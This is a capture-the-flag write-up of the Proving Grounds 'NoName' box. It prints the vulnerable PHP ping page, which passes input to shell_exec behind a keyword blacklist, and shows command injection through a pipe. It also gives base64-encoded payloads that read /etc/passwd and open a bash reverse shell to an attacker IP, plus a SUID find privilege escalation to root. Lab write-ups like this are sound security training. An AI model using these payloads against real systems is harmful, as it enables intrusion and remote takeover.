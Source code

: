 ```yaml
---
title: NoName - Proving Grounds
date: 2022-07-27
categories:
  - Writeup
  - Proving Grounds
tags:
  - Command injection
  - SUID
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
image: offsec.png
platform: offsecsil2.png
---
```



## NMAP

```
PORT   STATE SERVICE
80/tcp open  http
```

## Port 80 Enumeration

- Enum with Nikto and Gobuster
- Nikto did not return anthing interesting
- Gobuster returned `admin` and `superadmin.php`
    - `admin` only has pictures no functionality
    - `superadmin.php` looks like we can ping any IP address 



![](admin.png)

- Checking burp request 

![](2022-07-27-15-42-17.png)

- Trying command injection with `sleep` command.
    - `;` `&` did not work but `|` worked

![](2022-07-27-15-43-36.png)

- As we can see from the bottom of the screenshot we were able to successfully inject the `sleep` command for five seconds.

- Tried some basic reverse shell. but did not work.
- tried `ls` and also did not return anything
- tried `cat superadmin.php`

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc",
    "dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

- looks like there are certain blacklisted characters and commands. that's why we can't `ls` and `cat /etc/passwd`
- tried echoing a base64 encoded command then pipe to `base64 -d` then to `bash`
    - `echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`

![](2022-07-27-16-26-33.png)

- and it worked.

- tried with a reverse shell `bash -i >& /dev/tcp/192.168.49.210/80 0>&1`
    - `|echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx' | base64 -d | bash` did not work for some reason, when `bash` is removed at the end it gives me the following result
           
        ![](2022-07-27-16-48-44.png)

        - looks like it is not printing the whole base64 encoded command.

    - tried double `base64` encoding and it worked `|echo+'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64+-d|base64+-d|bash`

        ![](2022-07-27-16-46-09.png)

## Privesc


- we are `www-data` 
- checking `SUIDs` I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.

![](2022-07-27-16-52-16.png)

- `find . -exec /bin/sh \; -quit`

- and we are root.

![](2022-07-27-16-54-22.png)

